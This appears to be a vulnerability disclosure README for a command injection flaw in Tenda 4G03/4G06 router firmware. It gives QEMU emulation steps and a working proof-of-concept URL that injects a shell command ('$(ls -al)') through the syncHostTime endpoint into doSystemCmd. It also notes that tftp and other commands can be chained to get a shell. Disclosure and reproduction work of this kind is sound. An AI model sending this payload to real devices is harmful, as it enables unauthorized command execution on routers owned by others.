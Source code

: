 # tenda_4g03-4g06_vuln
## vuln__firm_version 
4g03 <= V16.03.07.21_multi

4g03 <= V16.03.07.21_multi

# Vulnerability Reproduction
## Firmware example 
https://down.tendacn.com/uploadfile/4G03/US_4G03V1.0re_V16.03.07.21_multi_TDE01.zip

## system emulate:
## Host
sudo brctl addbr br0

sudo ifconfig br0 192.168.1.137/24 up

sudo tunctl -t tap0

sudo ifconfig tap0 192.168.1.138/24 up

sudo brctl addif br0 tap0

## Guest
ip link add br0 type dummy

ifconfig eth0 192.168.1.139/24 up

ifconfig br0 192.168.1.140/24 up

## Mount file system
mount -o bind /dev ./squashfs-root/dev/

mount -t proc /proc/ ./squashfs-root/proc/

chroot squashfs-root /bin/sh

# Emulation
sudo qemu-system-mipsel -M malta -kernel vmlinux-2.6.32-5-4kc-malta -hda debian_squeeze_mips_standard.qcow2 -append "root=/dev/sda1 console=tty0" -netdev tap,id=tapnet,ifname=tap0,script=no -device rtl8139,netdev=tapnet -nographic

# Vulnerability information
![image](https://github.com/user-attachments/assets/33559806-3b51-4215-96f5-0ccb4eee08cd)

Pass the URL parameters to var, control var, and then execute the corresponding system function through doSystemCmd.

## after emulate successed
run ./bin/httpd 

![image](https://github.com/user-attachments/assets/7a584e9a-0ac2-4bf9-9d61-6ed739434c99)

## browser access
http://192.168.1.140/goform/syncHostTime/js/libs/reasy-ui-1.0.3.js?time=$(ls%20-al)

you can see it in the simulation terminal

![image](https://github.com/user-attachments/assets/725fa838-9d72-4f69-a5a9-9c2b105b3754)

After testing, not only can execute 'ls'. Can also execute 'echo', 'cat', 'tftp' and other commands that can be used to construct payloads to obtain shell commands
